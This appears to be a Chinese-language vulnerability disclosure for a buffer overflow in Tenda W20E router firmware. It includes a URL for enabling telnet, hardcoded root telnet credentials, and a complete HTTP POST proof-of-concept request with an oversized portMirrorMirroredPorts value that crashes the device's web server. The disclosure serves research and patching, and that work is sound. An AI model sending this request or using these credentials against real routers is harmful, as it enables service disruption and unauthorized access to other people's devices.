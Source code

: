 # Tenda W20E 缓冲区溢出漏洞
## Overview
- 厂商官网：https://www.tenda.com.cn/
- 固件下载地址：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
tenda W20E V16.01.0.6(3392)中存在缓冲区溢出漏洞，可导致httpd崩溃并重启。
## Affected version

![](pic/1.png "")

该图显示了最新的固件:V16.01.0.6(3392)

## Vulnerability details
开启telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

使用ida分析httpd，在函数formSetPortMirror中，对应的功能字段是SetPortMirror。

![](pic/interface.png "")

在函数formSetPortMirror:

![](pic/code.png "")

该程序将通过portMirrorMirroredPorts参数获得的内容传递给pMirroredPorts。然后，通过sprintf函数将pMirroredPorts的匹配内容格式化为sMibValue。
这里没有大小检查，因此存在通过portMirrorMirroredPorts字段导致缓冲区溢出的漏洞。

相应的网页如下:

![](pic/web.png "")

## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

功能数据包如下，我们将使用它来构建poc。

```http
POST /goform/module?1668753675738 HTTP/1.1
Host: 192.168.0.1
Content-Length: 95
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=; bLanguage=cn; sessionid=W20Ev5:0.133.2:f012ed
Connection: close

{"setPortMirror":{"portMirrorEn":true,"portMirrorLanPort":4,"portMirrorMirroredPorts":"1,0,0a*200"}}
```

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1.连接物理设备
2.用POC攻击

poco和攻击结果如下

![](pic/effect2.png "")

进行第二次攻击:

![](pic/effect.png "")

图中显示了POC攻击的效果，二进制程序httpd重新启动，因为进程id发生了改变。


## CVE-ID
unsigned